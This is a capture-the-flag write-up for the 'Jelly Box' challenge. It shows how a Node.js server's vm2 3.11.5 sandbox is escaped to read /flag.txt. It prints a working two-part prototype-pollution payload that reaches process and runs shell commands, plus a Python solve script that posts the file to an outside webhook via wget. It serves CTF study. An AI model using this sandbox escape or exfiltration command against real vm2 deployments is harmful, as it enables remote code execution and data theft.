



## Jelly Box  



We are given a small Node.js server that executes user-supplied code in the `/run` endpoint in a VM2 sandbox context.  

`/run` restricts our payload to `235` characters, but apart from that, there aren't any other restrictions.  

```js
'use strict'

const express = require('express')
const { VM } = require('vm2')

const app = express()
const PORT = 9797

app.use(express.json({ limit: '64kb' }))

const INDEX_HTML = `<!doctype html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Jelly Box</title>
<style>
    body {
        background: #1a0f1f;
        color: #ffe0f5;
        font-family: ui-monospace, SFMono-Regular, Menlo, monospace;
        margin: 0;
        padding: 40px;
        display: flex;
        justify-content: center;
    }
    .wrap { max-width: 760px; width: 100%; }
    h1 {
        font-size: 32px;
        margin: 0 0 4px;
        color: #ff77c8;
        text-shadow: 0 0 12px rgba(255, 119, 200, 0.45);
    }
    .sub { color: #b48fb8; margin-bottom: 24px; font-size: 13px; }
    textarea {
        width: 100%;
        height: 220px;
        background: #2a1632;
        color: #ffe0f5;
        border: 1px solid #5a2b6a;
        border-radius: 10px;
        padding: 14px;
        font-family: inherit;
        font-size: 13px;
        box-sizing: border-box;
        outline: none;
    }
    textarea:focus { border-color: #ff77c8; }
    button {
        background: #ff77c8;
        color: #1a0f1f;
        border: 0;
        padding: 10px 22px;
        font-weight: 700;
        border-radius: 999px;
        cursor: pointer;
        margin-top: 12px;
        font-family: inherit;
    }
    button:hover { background: #ffa3da; }
    pre {
        background: #2a1632;
        border: 1px solid #5a2b6a;
        border-radius: 10px;
        padding: 14px;
        white-space: pre-wrap;
        word-break: break-all;
        min-height: 60px;
        color: #ffe0f5;
    }
    h3 { color: #ff77c8; margin-top: 24px; }
</style>
</head>
<body>
<div class="wrap">
    <h1>Jelly Box</h1>
    <textarea id="code" spellcheck="false" placeholder="// your code here"></textarea>
    <br>
    <button onclick="run()">run</button>
    <h3>output</h3>
    <pre id="out"></pre>
</div>
<script>
async function run() {
    const code = document.getElementById('code').value
    const out = document.getElementById('out')
    out.textContent = '...'
    try {
        const r = await fetch('/run', {
            method: 'POST',
            headers: { 'content-type': 'application/json' },
            body: JSON.stringify({ code })
        })
        const j = await r.json()
        out.textContent = JSON.stringify(j, null, 2)
    } catch (e) {
        out.textContent = String(e)
    }
}
</script>
</body>
</html>`

app.get('/', (req, res) => {
    res.type('html').send(INDEX_HTML.replace('__NODEV__', process.versions.node))
})

app.post('/run', (req, res) => {
    const code = (req.body && typeof req.body.code === 'string') ? req.body.code : ''
    if (!code) {
        return res.status(400).json({ ok: false, error: 'missing code' })
    }
    if (code.length > 235) {
        return res.status(413).json({ ok: false, error: 'payload too large' })
    }

    const vm = new VM({
        timeout: 2000
    })

    try {
        const result = vm.run(code)
        let out
        try { out = String(result) } catch { out = '[unserializable]' }
        res.json({ ok: true, result: out })
    } catch (e) {
        res.json({ ok: false, error: String(e && e.stack || e) })
    }
})

app.listen(PORT, '0.0.0.0', () => {
    console.log(`[jelly-box] listening on http://0.0.0.0:${PORT}`)
})
```

The Dockerfile shows that the flag file is stored in root. Since it isn't referenced anywhere in the server source, it is obvious that we must somehow achieve sandbox escape RCE to read it.  

```dockerfile
FROM node:26.3.0-alpine

WORKDIR /app

COPY package.json ./
RUN npm install --omit=dev --no-audit --no-fund

COPY server.js ./
COPY flag.txt /flag.txt

EXPOSE 9797
CMD ["node", "server.js"]
```

`package.json` shows that the server uses `vm2@3.11.5`, which is a relatively recent version, thus most past sandbox escape techniques won't work.  

```json
{
    "name": "jelly-box",
    "version": "1.0.0",
    "private": true,
    "main": "server.js",
    "scripts": {
        "start": "node server.js"
    },
    "dependencies": {
        "express": "^4.21.2",
        "vm2": "3.11.5"
    }
}
```

However, if we look at the Github repo for VM2, we will find [this security advisory](https://github.com/patriksimek/vm2/security/advisories/GHSA-cfcw-xp6x-25gj), which details an unpublished CVE (as of the time of writing) that allows for sandbox escape RCE.  



The payload works by performing an obfuscated prototype pollution on an error object to bypass VM2's mutation checks, then leverages it to get a reference to the `process` object for RCE.  

Since the error object pollution persists across VM2 instances, we can split up the POC payload into two parts to overcome the length restriction.  

The first pollution step must be shortened to fit under the length cap.  

```js
b = Buffer.call;
f = a => b.call(b,{}[`__lookup${a}etter__`],Buffer,"__proto__");

WebAssembly.compileStreaming().catch(e=>b.call(b,f('S'),b.call(b,f('G'),e),null))
```

We can then perform the RCE step in the second payload. Since the command is executed in an asynchronous process, we can't redirect it to VM2's stdout, so we can just send it to a webhook instead.  

```js
WebAssembly.compileStreaming().catch(e => {
    e.constructor.constructor("return process")().mainModule.require('child_process').execSync('cat /flag.txt | wget --post-data="$(cat)" <webhook>')
})
```

Submitting both payloads will achieve the sandbox escape RCE and exfiltrate the flag to our webhook.  



Below is my full solve script for this challenge.  

```python
import requests

url = 'http://host3.dreamhack.games:13508/'
s = requests.Session()

a = '''
b = Buffer.call;
f = a => b.call(b,{}[`__lookup${a}etter__`],Buffer,"__proto__");

WebAssembly.compileStreaming().catch(e=>b.call(b,f('S'),b.call(b,f('G'),e),null))
'''.strip().replace(' ', '')

b = '''
WebAssembly.compileStreaming().catch(e => {
    e.constructor.constructor("return process")().mainModule.require('child_process').execSync('%s')
})
'''.strip()

def rce(payload):
    res = s.post(f'{url}/run', json={
        'code': payload
    })

    assert res.json()['ok']
    print("> Executed payload")

rce(a)

webhook = 'https://aizdyqa.request.dreamhack.games'

cmd = 'cat /flag.txt | wget --post-data="$(cat)" %s' % webhook

rce(b % cmd)
```

Flag: `DH{plz_let_me_get_out_of_the_jellybox_7c1ae9:MMkOv2CZKOsvScep3GmM4w==}`